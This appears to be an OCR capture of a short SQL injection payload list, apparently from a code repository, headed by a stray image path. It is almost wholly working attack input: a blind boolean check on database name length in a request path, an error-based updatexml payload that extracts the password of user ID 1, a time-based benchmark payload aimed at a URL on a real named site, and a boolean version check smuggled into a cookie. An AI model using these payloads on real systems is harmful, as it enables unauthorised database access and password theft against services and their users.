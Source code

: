 -> PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1

->categoryid[]=-99)or(updatexml(1,concat(0x3a,(Select+password+from+user+where+userid=1+limit+0,1)),1))+--+

->` http://kv.mail.ru/?ref=horde6'+benchmark(10000000,sha1(1))+'`

-> cfire_uid=1491167763614215' or substring(version(),1,1)=5-- ;-true(500InternalServerError)